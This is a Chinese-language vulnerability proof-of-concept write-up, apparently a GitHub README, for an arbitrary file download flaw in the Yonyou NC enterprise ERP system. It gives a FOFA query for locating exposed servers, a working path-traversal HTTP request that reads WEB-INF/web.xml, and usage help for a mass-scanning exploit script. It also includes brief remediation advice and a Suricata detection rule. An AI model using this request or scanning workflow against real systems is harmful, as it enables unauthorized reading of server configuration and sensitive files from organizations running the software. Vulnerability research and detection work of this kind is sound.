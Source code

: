 ### 产品简介  
用友NC是“企业资源规划（Enterprise Resource Planning）”的缩写，是指用友软件股份有限公司开发的一套企业管理软。用友NC系统是一种集成管理企业各项业务流程的信息化解决方案。该系统涵盖了财务、人力资源、供应链管理等多个方面，旨在帮助企业提高运营效率、优化资源利用、提升管理水平。  

### 漏洞概述  
用友NC getFileLocal 任意文件下载,攻击者可通过此漏洞获取敏感信息。  

### 指纹识别  
fofa: app="用友-UFIDA-NC" && title=="产品登录界面"

### 漏洞利用  
```
poc:
GET /portal/file?cmd=getFileLocal&fileid=..%2F..%2F..%2F..%2Fwebapps/nc_web/WEB-INF/web.xml HTTP/1.1
Host: xxxxxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

```
![Image text](https://github.com/YUUKI4O4/POC/blob/main/%E7%94%A8%E5%8F%8B/Yonyou_NC_getFileLocal_Arbitrary_File_Download_Vulnerability/1.png)

### 测试和利用脚本  
```
python3 Yonyou_NC_getFileLocal_Arbitrary_File_Download_Vulnerability.py -h
usage: Yonyou_NC_getFileLocal_Arbitrary_File_Download_Vulnerability.py [-h] [-t] [-r FILE] [-u URL]

### Yonyou NC getFileLocal Arbitrary File Download Vulnerability. ###

options:
  -h, --help            show this help message and exit
  -t, --target_collection
                        Perform target collection
  -r FILE, --multi_objective_testing FILE
                        Perform multi-objective testing. e.g:python
                        Yonyou_NC_getFileLocal_Arbitrary_File_Download_Vulnerability.py -r ./url.txt
  -u URL, --single_objective_testing URL
                        Perform single-objective testing. e.g:python
                        Yonyou_NC_getFileLocal_Arbitrary_File_Download_Vulnerability.py -u
                        http://xxx.xxx.xxx
```

### 修复建议  
1、请联系厂商进行修复。  
2、如非必要，禁止公网访问该系统。  
3、设置白名单访问。  

### Suricata rules  
```
alert http any any -> any any (msg:"Yonyou NC getFileLocal Arbitrary File Download Vulnerability"; flow:established,to_server;  content:"get";http_method;nocase; content:"/portal/file?cmd=getFileLocal&fileid=";http_uri;fast_pattern;nocase; content:"../../";http_uri;distance:0; reference:url,https://github.com/YUUKI4O4/POC/blob/main/%E7%94%A8%E5%8F%8B/Yonyou_NC_getFileLocal_Arbitrary_File_Download_Vulnerability;  classtype:web-attck; metadata:created_at 2024-01-29,updated_at 2024-01-29,creater:YUUKI4O4; sid:24; rev:1;)
```
